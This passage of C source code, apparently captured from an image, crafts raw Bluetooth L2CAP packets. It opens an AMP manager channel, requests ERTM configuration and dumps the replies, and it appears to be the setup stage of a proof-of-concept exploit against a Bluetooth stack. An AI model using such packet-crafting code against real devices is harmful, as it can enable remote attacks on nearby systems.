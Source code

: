 ```c
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conn_rsp conn_rsp;
  } packet4 = {0};
  packet4.hdr.len = htobs(sizeof(packet4) - L2CAP_HDR_SIZE);
  packet4.hdr.cid = htobs(1);
  packet4.cmd_hdr.code = L2CAP_CONN_RSP;
  packet4.cmd_hdr.ident = 1;
  packet4.cmd_hdr.len = htobs(sizeof(packet4) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
  packet4.conn_rsp.scid = htobs(AMP_MGR_CID);
  packet4.conn_rsp.dcid = htobs(AMP_MGR_CID);
  packet4.conn_rsp.result = htobs(L2CAP_CR_SUCCESS);
  packet4.conn_rsp.status = htobs(0);
  hci_send_acl_data(hci_socket, hci_handle, &packet4, sizeof(packet4));

  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_ACLDATA_PKT) {
      l2cap_cmd_hdr *l2_cmd_hdr = (l2cap_cmd_hdr *)&buf[9];
      if (l2_cmd_hdr->code == L2CAP_CONF_REQ) {
        break;
      }
    }
  }

  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conf_req conf_req;
    l2cap_conf_opt conf_opt;
    l2cap_conf_rfc conf_rfc;
  } packet2 = {0};
  packet2.hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE);
  packet2.hdr.cid = htobs(1);
  packet2.cmd_hdr.code = L2CAP_CONF_REQ;
  packet2.cmd_hdr.ident = 1;
  packet2.cmd_hdr.len =
      htobs(sizeof(packet2) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
  packet2.conf_req.dcid = htobs(AMP_MGR_CID);
  packet2.conf_req.flags = htobs(0);
  packet2.conf_opt.type = L2CAP_CONF_RFC;
  packet2.conf_opt.len = sizeof(l2cap_conf_rfc);
  packet2.conf_rfc.mode = L2CAP_MODE_ERTM;
  hci_send_acl_data(hci_socket, hci_handle, &packet2, sizeof(packet2));

  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_ACLDATA_PKT) {
      l2cap_cmd_hdr *l2_cmd_hdr = (l2cap_cmd_hdr *)&buf[9];
      if (l2_cmd_hdr->code == L2CAP_CONF_RSP) {
        hexDump(buf, sizeof(buf));
        break;
      }
    }
  }
```